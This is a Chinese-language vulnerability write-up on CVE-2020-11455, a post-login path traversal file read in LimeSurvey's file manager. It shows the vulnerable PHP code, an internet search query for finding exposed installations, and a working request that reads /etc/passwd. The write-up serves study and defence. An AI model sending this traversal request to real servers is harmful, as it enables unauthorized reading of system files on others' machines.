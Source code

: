 # LimeSurvey LimeSurveyFileManager.php 后台任意文件读取漏洞 CVE-2020-11455

## 漏洞描述

LimeSurvey（前称PHPSurveyor）是LimeSurvey团队的一套开源的在线问卷调查程序，它支持调查程序开发、调查问卷发布以及数据收集等功能。
LimeSurvey 4.1.12 + 200324之前版本中的application/controllers/admin/LimeSurveyFileManager.php文件存在路径遍历漏洞。该漏洞源于网络系统或产品未能正确地过滤资源或文件路径中的特殊元素。攻击者可利用该漏洞访问受限目录之外的位置。

## 漏洞影响

LimeSurvey < 4.1.12 + 200324</a-checkbox></br>

## 网络测绘

app="LimeSurvey"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650453876458-96aaea24-21f4-4ffb-9339-c596d9c4fc87.png)

出现漏洞的文件为 `application/controllers/admin/LimeSurveyFileManager.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650453992802-1393b9ad-1a7f-41ba-b80c-5f2058c4bfc7-20220420194636996.png)

```php {14-19}
public function downloadFiles() {
        App()->loadLibrary('admin.pclzip');
        
        $folder = basename(Yii::app()->request->getPost('folder', 'global'));
        $files = Yii::app()->request->getPost('files');

        $tempdir = Yii::app()->getConfig('tempdir');
        $randomizedFileName = $folder.'_'.substr(md5(time()),3,13).'.zip';
        $zipfile = $tempdir.DIRECTORY_SEPARATOR.$randomizedFileName;
        $arrayOfFiles = array_map( function($file){ return $file['path']; }, $files);
        $archive = new PclZip($zipfile);
        $checkFileCreate = $archive->create($arrayOfFiles, PCLZIP_OPT_REMOVE_ALL_PATH);
        $urlFormat = Yii::app()->getUrlManager()->getUrlFormat();
        $getFileLink = Yii::app()->createUrl('admin/filemanager/sa/getZipFile');
        if($urlFormat == 'path') {
            $getFileLink .= '?path='.$zipfile;
        } else {
            $getFileLink .= '&path='.$zipfile;
        }

        $this->_printJsonResponse(
            [
                'success' => true,
                'message' => sprintf(gT("Files are ready for download in archive %s."), $randomizedFileName),
                'downloadLink' => $getFileLink ,
            ]
        );
    }
```

路由为: `admin/filemanager/sa/getZipFile`, 这里传入参数 path 到方法 `getZipFile()`中

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650454603065-aa5fbb1b-b8bb-4a45-ad2f-c86dd87ce2f5-20220420194643953.png)

这里通过 readfile方法 读取文件，登录后台后发送请求

```php
/index.php/admin/filemanager/sa/getZipFile?path=/../../../../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650454764306-b899ea3a-16f0-4fdb-b4a1-80df09dd17e4.png)